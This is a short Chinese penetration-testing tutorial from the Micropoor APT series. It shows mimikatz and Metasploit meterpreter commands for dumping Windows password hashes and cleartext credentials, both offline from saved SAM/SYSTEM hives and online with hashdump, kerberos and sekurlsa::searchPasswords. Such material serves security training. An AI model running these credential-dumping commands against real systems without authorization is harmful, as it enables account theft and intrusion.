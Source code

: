 专注APT攻击与防御
https://micropoor.blogspot.com/

上一季下载sys.hiv,sam.hiv,security.hiv文件后，以Linux下为背景来离线提取hash，本季补充以windows为背景离线提取hash。

mimikatz 2.0二进制文件下载地址：
https://github.com/gentilkiwi/mimikatz/releases/latest
切到当下目录（注意X86,X64位）

mimikatz离线导hash命令：
`mimikatz.exe "lsadump::sam /system:sys.hiv /sam:sam.hiv" exit`

![](media/92ae7706ceec3aa04bce07e08ced2e16.jpg)

mimikatz在线导hash命令：

`mimikatz.exe "log Micropoor.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"`

![](media/88ab6bceca9f6a733b768b1ccfefe688.jpg)

当然关于提取目标机的hash，msf也内置了离线提取与在线提取hash。

meterpreter下hashdump命令来提取hash（注意当前权限）
![](media/79e0ae6ee3518126f0c11872201c70fb.jpg)
![](media/5808e7c6ac005d96f8289f994db6e45e.jpg)

msf同时也内置了mimikatz，meterpreter执行load mimikatz即可加载该插件。**（这里一定要注意，msf默认调用于payload位数相同的mimikatz）**
![](media/3535a826c17c149f290fd79bd2fe865a.jpg)

直接执行kerberos即可。
![](media/0134f11ff22c5d4450f173c8e5ce9717.jpg)

当然有些情况下，payload位数无误，权限无误，依然无法提取目标机的密码相关。需要调用mimikatz自定义命令：
`mimikatz_command -f sekurlsa::searchPasswords`
![](media/ae5d3f87f6df54f4a42bfa231e5847c0.jpg)

>   Micropoor
